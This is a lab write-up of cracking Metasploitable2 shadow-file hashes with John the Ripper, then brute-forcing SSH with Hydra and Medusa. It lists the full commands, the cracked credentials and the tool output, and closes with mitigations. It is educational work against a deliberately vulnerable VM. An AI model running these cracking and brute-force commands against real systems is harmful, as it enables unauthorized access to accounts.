






# Password Cracking & SSH Brute Force (Metasploitable2)

## Objective
Using the `/etc/shadow` file obtained from the VSFTPD 2.3.4 exploit,
crack the hashed passwords with John the Ripper and use the cracked
credentials to brute force SSH access on the target machine.

> 🔗 Prerequisites: [VSFTPD 2.3.4 Backdoor](/offense/vsftpd-backdoor.md)

>  **Note:** During this exercise, Claude AI was used as a reference
> when troubleshooting the SSH compatibility issues encountered with Hydra.
> All commands were executed and tested independently.

---

## Step 1: Password Cracking with John the Ripper

With the contents of the `/etc/shadow` file saved locally from the
previous VSFTPD exploit, John the Ripper was used to crack the
MD5crypt (`$1$`) hashes using the rockyou.txt wordlist.

```bash
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt /home/kali/filestation/shadow.txt
```


After completion, the cracked credentials were displayed:

```bash
john --show shadow.txt
```



**Result:** 6 out of 7 hashes were successfully cracked.

| Username | Password |
|---|---|
| sys | batman |
| klog | 123456789 |
| msfadmin | msfadmin |
| postgres | postgres |
| user | user |
| service | service |

The cracked usernames and passwords were saved to separate files
for use in the next step:

```
/home/kali/filestation/users.txt
/home/kali/filestation/passwords.txt
```

---

## Step 2: SSH Brute Force

### First Attempt — Hydra

The cracked credentials were used to brute force the SSH service
using Hydra.

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.190.128
```



**Result:** Failed. Hydra encountered a MAC algorithm mismatch
between the modern Kali SSH client and Metasploitable2's legacy
SSH configuration.

```
kex error: no match for method mac algo client->server
server: [hmac-md5, hmac-sha1, ...]
client: [hmac-sha2-256, hmac-sha2-512, ...]
```

This is a known compatibility issue — Metasploitable2 runs an
older SSH version that does not support modern encryption algorithms.

### Second Attempt — Hydra with legacy MAC

After researching the error with the help of Claude AI, a second 
attempt was made with Hydra by specifying a legacy MAC algorithm:

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.190.128 -t 4 -m "MACs=hmac-sha1"
```



**Result:** Failed again. Hydra was unable to handle the full legacy
SSH configuration of Metasploitable2.

### Third Attempt — Medusa

Due to the compatibility issues with Hydra, Medusa was used as an
alternative brute force tool. A host file containing the target IP
was created:

```
/home/kali/filestation/metasploitable.ip
```

```bash
medusa -H metasploitable.ip -U users.txt -P passwords.txt -M ssh
```


**Result:** Success. Medusa found valid SSH credentials:

```
ACCOUNT FOUND: [ssh] Host: 192.168.190.128 User: sys Password: batman [SUCCESS]
```

---

## Step 3: SSH Access

Using the credentials found by Medusa, SSH access was established.
Due to Metasploitable2's legacy SSH configuration, additional flags
were required:

```bash
ssh sys@192.168.190.128 
```



```bash
whoami
```
Output: `sys`

```bash
hostname
```
Output: `metasploitable`



---

## Result

Successful SSH access was gained on the target machine using
credentials obtained through password cracking.

---

## Next Steps
- Privilege escalation from `sys` to `root` via kernel exploit
- Metasploitable2 runs kernel version 2.6.24 (2008) which is
vulnerable to known kernel exploits
- To be documented in a follow-up writeup

---

## What I Learned
- How to extract and crack password hashes from `/etc/shadow`
- How legacy SSH compatibility issues can affect modern tools
- Troubleshooting tool failures and switching to alternatives (Hydra → Medusa)
- The difference between Hydra and Medusa for brute forcing
- How to use Claude AI as a troubleshooting reference

---

## Impact

Weak or reused passwords combined with an exposed SSH service
allow attackers to gain unauthorized access using brute force
techniques. Once inside, further privilege escalation may lead
to full system compromise.

---

## Mitigations
- Use strong, unique passwords for all system accounts
- Disable SSH password authentication — use key-based auth instead
- Regularly audit user accounts and remove unused ones
- Keep SSH and system software up to date
